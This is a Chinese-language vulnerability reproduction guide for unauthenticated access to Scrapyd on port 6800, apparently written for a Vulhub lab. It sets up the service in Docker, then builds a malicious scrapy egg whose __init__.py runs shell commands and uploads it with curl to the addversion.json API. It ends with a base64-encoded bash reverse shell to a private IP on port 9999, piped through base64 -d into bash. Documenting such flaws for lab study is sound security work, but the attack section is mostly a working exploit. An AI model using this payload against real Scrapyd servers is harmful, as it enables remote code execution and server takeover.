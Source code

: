 # Scrapyd 未授权访问漏洞

## 漏洞描述

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：https://www.leavesongs.com/PENETRATION/attack-scrapy.html

## 环境搭建

Vulhub执行如下命令启动scrapyd服务：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。

![image-20220228223956758](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282239821.png)

## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```
$ pip install scrapy scrapyd-client
$ scrapy startproject evil
$ cd evil
```

编辑 `evil/__init__.py`, 加入恶意代码：

```python
import os

os.system('touch awesome_poc')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功执行命令`touch awesome_poc`：

![image-20220228225416938](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282254990.png)

同样的方法实现反弹shell，编辑 `evil/__init__.py`, 加入恶意代码：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1

# base64编码（必须要base64编码，直接bash -i >& /dev/tcp/192.168.174.128/9999 0>&1是不行的）
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=
```

```python
import os

os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= | base64 -d | bash')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：

![image-20220228230711087](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282307169.png)
